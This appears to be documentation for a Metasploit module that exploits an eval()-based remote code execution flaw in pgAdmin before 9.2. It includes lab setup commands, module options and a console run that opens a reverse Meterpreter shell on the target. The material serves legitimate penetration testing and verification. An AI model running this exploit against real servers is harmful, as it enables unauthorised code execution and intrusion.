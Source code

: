 ## Vulnerable Application

### Description

This module exploits a vulnerability in pgAdmin where an authenticated user can establish a connection to the query tool
and send a specific payload in the query_commited POST parameter. This payload is directly executed via a Python eval()
statement, resulting in remote code execution in versions prior to 9.2.

To exploit this vulnerability, pgAdmin credentials are required. Additionally, in order to interact with the vulnerable
SQL editor component, valid database credentials are necessary to initialize a session and obtain a transaction ID,
which is required for the exploit.


### Setup

A pgAdmin Docker instance can be started using the following command:
```bash
docker run -d -p 8484:80 -e PGADMIN_DEFAULT_EMAIL=admin@admin.com -e PGADMIN_DEFAULT_PASSWORD=adminpassword --name pgadmin dpage/pgadmin4:9.0
```
A PostgreSQL database needs to be connected to the pgAdmin instance in order to exploit. The version of postgresql doesn't matter:
```bash
docker run -d \\n  -p 5432:5432 \\n  --name postgres \\n  -e POSTGRES_PASSWORD=mysecretpassword \\n  -e POSTGRES_USER=pgadminuser \\n  -e POSTGRES_DB=pgadmin \\n  postgres:latest
```

## Verification Steps
1. Start msfconsole.
1. Do: use exploit/multi/http/pgadmin_query_tool_authenticated.
1. Set the RHOST, USERNAME, PASSWORD, DB_USER, DB_PASS AND DB_NAME options.
1. Run the module.
1. Receive a Meterpreter session as the pgAdmin user. 

## Options

### USERNAME
The username for authentication (required).

### PASSWORD
The password for authentication (required).

### DB_USER
The database username to authenticate to the database with (required).

### DB_PASS
The password to authenticate to the database with (required).

### DB_NAME
The name of the database to target (required)

### MAX_SERVER_ID
The maximum number of Server IDs to try and connect to. This is used to determine the correct server ID for the exploit.
A valid `sid` is required in order to connect to the query_tool in order to exploit. The default value is 10.

## Scenarios
### pgAdmin 4 v9.0
```
msf6 exploit(multi/http/pgadmin_query_tool_authenticated) > run db_name=postgres db_user=pgadminuser db_pass=mysecretpassword rhost=127.0.0.1 rport=8484 username=admin@admin.com password=adminpassword lhost=172.16.199.1 MAX_SERVER_ID=10 verbose=true
[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. pgAdmin version 9.0.0 is affected
[+] Successfully authenticated to pgAdmin
[*] Trying server ID: 1
[*] Trying server ID: 2
[*] Trying server ID: 3
[+] Successfully posted to sqleditor panel with transaction ID: 9377994 and sid: 3
[+] Successfully initialized sqleditor
[*] Exploiting the target...
[*] Sending stage (24772 bytes) to 172.16.199.1
[+] Received a 500 response from the exploit attempt, this is expected
[*] Meterpreter session 3 opened (172.16.199.1:4444 -> 172.16.199.1:62455) at 2025-04-09 17:05:17 -0700

meterpreter > getuid
Server username: pgadmin
smeterpreter > sysinfo
Computer     : e9b855f7cda2
OS           : Linux 6.10.14-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Mar 20 16:36:58 UTC 2025
Architecture : x64
Meterpreter  : python/linux
meterpreter >
```
